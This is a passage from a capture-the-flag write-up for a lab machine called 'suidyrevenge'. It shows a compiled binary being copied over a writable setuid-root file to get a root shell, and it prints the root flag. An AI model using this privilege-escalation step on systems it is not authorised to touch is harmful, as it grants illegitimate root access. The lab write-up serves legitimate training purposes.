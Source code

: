 编译后执行替换

```shell
(remote) theuser@suidyrevenge:/home/theuser$ nano suid.c
(remote) theuser@suidyrevenge:/home/theuser$ gcc suid.c -o suid
(remote) theuser@suidyrevenge:/home/theuser$ cp ./suid /home/suidy/suidyyyyy 
(remote) theuser@suidyrevenge:/home/theuser$ cd /home/suidy/
(remote) theuser@suidyrevenge:/home/suidy$ ls -lh
total 24K
-rw-r----- 1 suidy suidy   262 Oct  1  2020 note.txt
-rwsrws--- 1 root  theuser 17K Feb 16 02:10 suidyyyyy
(remote) theuser@suidyrevenge:/home/suidy$ ./suidyyyyy 
root@suidyrevenge:/home/suidy# whoami
root
```

## User - root

### flag- root

```shell
root@suidyrevenge:/root# cat root.txt 
                                                                                
                                   .     **                                     
                                *           *.                                  
                                              ,*                                
                                                 *,                             
                         ,                         ,*                           
                      .,                              *,                        
                    /                                    *                      
                 ,*                                        *,                   
               /.                                            .*.                
             *                                                  **              
             ,*                                               ,*                
                **                                          *.                  
                   **                                    **.                    
                     ,*                                **                       
                        *,                          ,*                          
                           *                      **                            
                             *,                .*                               
                                *.           **                                 
                                  **      ,*,                                   
                                     ** *,                                      
                                                                                
                                                                                
HMVvoilarootlala  
```
